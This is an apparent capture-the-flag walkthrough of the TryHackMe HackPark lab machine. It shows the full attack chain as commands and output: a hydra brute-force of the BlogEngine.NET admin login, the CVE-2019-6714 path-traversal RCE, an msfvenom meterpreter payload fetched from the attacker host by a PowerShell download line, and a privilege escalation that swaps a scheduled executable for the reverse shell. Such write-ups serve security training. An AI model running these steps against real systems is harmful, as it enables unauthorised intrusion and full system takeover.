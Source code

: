 # what I learned
- WindowsScheduler

# enumerate
port scanning...
- 80/tcp   open  http
  - /Account/login.aspx?ReturnURL=/admin/ 
    - Login failed
- 3389/tcp open  ms-wbt-server

# foothold
run brup suite and intercept the cookie in Params: Replace username with ^USER^, password with ^PASS^ and adding error message when login with wrong credential in the end (`:Login failed`)
```console
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=ReUZyiBNjEGKeMibgp4kMp%2BpV8%2FBXT6KJ5yVTiiloqnNrhPnc5%2BMOi0Mhsg8Zuh91AzFdRDfMeq3wDBXOwMOOJZn7Z89Upu2X7b2JfzpJaJgoK%2BHtu0boZwpcK12443Yf5TrM0Zajc1jhbNFRz9ICeBgFtDMzoezB2aXk7IxB%2B0N%2ByTU9Ow1NQ92IUomSFDMm0Xeu9ZTn94jm4%2FRCugqfdfoSq68g0Qg4DMkcnjuZptE%2F3w8MRK8dhh2xfdUTP%2B%2Fo%2FDuQBdvxBuZF15fxPjk2P2SUWYa76pvrRUE9O5VwqrzZnbYhAjTNy2u71XUY6%2FQ1MQhbFO4XdJU1IqK6a2wUlpO5WpNEXM00JQb3iX5HjVuojvy&__EVENTVALIDATION=XZyseVXU202%2BVJwJvA0EQjrNegLpyhRhzoG95ql%2B0xX0Mt%2FRMdQpXHsTMzNRQxFJ1S6cPiKD6o5QjkQjbchWL3z%2BYkwDDyYq5IBfX2mdIwCBodVAKsQQy8R%2FBGZlZjjQ0lVK7hRx2dCQCNCfdQQ7vNjgHgPpxOiFkhRV%2BuvEKSQrClSL&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```
1qaz2wsx

in `/admin/about.cshtml` you will find more infomation about the service, BlogEngine.NET version  3.3.6.0. after some digging, I found:
```
CVE-2019-6714
*
* Path traversal vulnerability leading to remote code execution.  This 
* vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
* is caused by an unchecked "theme" parameter that is used to override
* the default theme for rendering blog pages.  The vulnerable code can 
* be seen in this file:
```
the exploit script tell us exackly what we should do
1. download the script and rename it as `PostView.ascx`
2. put load the script at `/admin/app/editor/editpost.cshtml`
3. execute the reverse shell `/?theme=../../App_Data/files`

current reverse shell is not so good, the plan is get **meterpreter** shell: let start by create the meterpreter shell using `msfvenom`:
```console
bibo318@parrot:~/THM/hackpark$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.14.151 LPORT=9696 -f exe -o shell2.exe
```
now in the restricted shell, move to any folder that you will have permission to download/save the our reverse shell (in my case, `c:\Users\Public\Documents`)

```console
cd c:\Users\Public\Documents
c:\windows\system32\inetsrv>cd c:\Users\Public\Documents
dir
c:\Users\Public\Documents>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Users\Public\Documents
07/23/2020  08:16 AM    <DIR>          .
07/23/2020  08:16 AM    <DIR>          ..
07/23/2020  08:16 AM    <DIR>          Microsoft
               0 File(s)              0 bytes
               3 Dir(s)  38,400,802,816 bytes free
powershell -command "IEX (New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell2.exe','shell2.exe')" # download reverse shell from our kali
c:\Users\Public\Documents>powershell -command "IEX (New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell2.exe','shell2.exe')"
dir
c:\Users\Public\Documents>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Users\Public\Documents
07/23/2020  08:17 AM    <DIR>          .
07/23/2020  08:17 AM    <DIR>          ..
07/23/2020  08:16 AM    <DIR>          Microsoft
07/23/2020  08:17 AM             7,168 shell2.exe
               1 File(s)          7,168 bytes
               3 Dir(s)  38,400,782,336 bytes free
```
now run msfconsole and using `exploit/multi/handler` to wait for reverse shell
```console
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set LPORT 9696
LPORT => 9696
msf5 exploit(multi/handler) > run
```
back to our shell, execute our meterpreter reverse shell .exe
```
shell2.exe
c:\Users\Public\Documents>shell2.exe
```
# User + Rooted
We cannot do anything with our privilage: not that there are a user call Jeff on the server. Let using winPEAS to find out more about the server.
```
meterpreter > upload winPEAS-x86.exe
meterpreter > winPEAS-x86.exe
.
.
WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running                                                                    
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])                                                                                  
System Scheduler Service Wrapper
.
.
```
WindowsScheduler is like crontab in Linux. not that can write/create a file on that folder, let find out more about processes so we can use it to escalate to root user.
```console
meterpreter > pwd
c:\Program Files (x86)\SystemScheduler\Events 
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1927   fil   2019-08-04 18:05:19 -0400  20198415519.INI
100666/rw-rw-rw-  16286  fil   2019-08-04 18:06:01 -0400  20198415519.INI_LOG.txt
100666/rw-rw-rw-  186    fil   2020-07-23 11:38:28 -0400  Administrator.flg
100666/rw-rw-rw-  182    fil   2020-07-23 11:38:01 -0400  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2020-07-23 11:38:28 -0400  Scheduler.flg
100666/rw-rw-rw-  449    fil   2019-08-04 07:36:53 -0400  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2020-07-23 11:38:01 -0400  service.flg
meterpreter > cat 20198415519.INI_LOG.txt # log
Listing: c:\Program Files (x86)\SystemScheduler\Events
07/23/20 09:14:02,Event Started Ok, (Administrator)
07/23/20 09:14:33,Process Ended. PID:648,ExitCode:4,Message.exe (Administrator)
07/23/20 09:15:03,Event Started Ok, (Administrator)
07/23/20 09:15:34,Process Ended. PID:2264,ExitCode:4,Message.exe (Administrator)
07/23/20 09:16:02,Event Started Ok, (Administrator)
07/23/20 09:16:33,Process Ended. PID:2488,ExitCode:4,Message.exe (Administrator)
07/23/20 09:17:02,Event Started Ok, (Administrator)
07/23/20 09:17:33,Process Ended. PID:1916,ExitCode:4,Message.exe (Administrator)
07/23/20 09:18:02,Event Started Ok, (Administrator)
07/23/20 09:18:33,Process Ended. PID:1248,ExitCode:4,Message.exe (Administrator)
07/23/20 09:19:03,Event Started Ok, (Administrator)
07/23/20 09:19:34,Process Ended. PID:1300,ExitCode:4,Message.exe (Administrator)
07/23/20 09:20:02,Event Started Ok, (Administrator)
07/23/20 09:20:33,Process Ended. PID:2460,ExitCode:4,Message.exe (Administrator)
```
Seem like there is a schedule for a file call `Message.exe` which is executed each 30 sec and so. The plan is we will replace `Message.exe` with a meterpreter shell. The reverse shell will be executed as Root and then bingo, we will get reverse shell with root privilage:
```console
meterpreter > upload /home/kali/THM/hackpark/shell2.exe # upload our shell in the server at c:\Program Files (x86)\SystemScheduler\Events
[*] uploading  : /home/kali/THM/hackpark/shell2.exe -> shell2.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/THM/hackpark/shell2.exe -> shell2.exe
[*] uploaded   : /home/kali/THM/hackpark/shell2.exe -> shell2.exe
meterpreter > mv Message.exe Message.bak # change it .bak
meterpreter > mv shell2.exe Message.exe # change to Message.exe
meterpreter > background # background the session.
```
now let run another meterpreter session
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.14.151:9696 
[*] Sending stage (176195 bytes) to 10.10.139.25
[*] Meterpreter session 7 opened (10.8.14.151:9696 -> 10.10.139.25:49498) at 2020-07-23 12:28:01 -0400
meterpreter > shell
C:\PROGRA~2\SYSTEM~1>echo %username%
echo %username%
Administrator
```
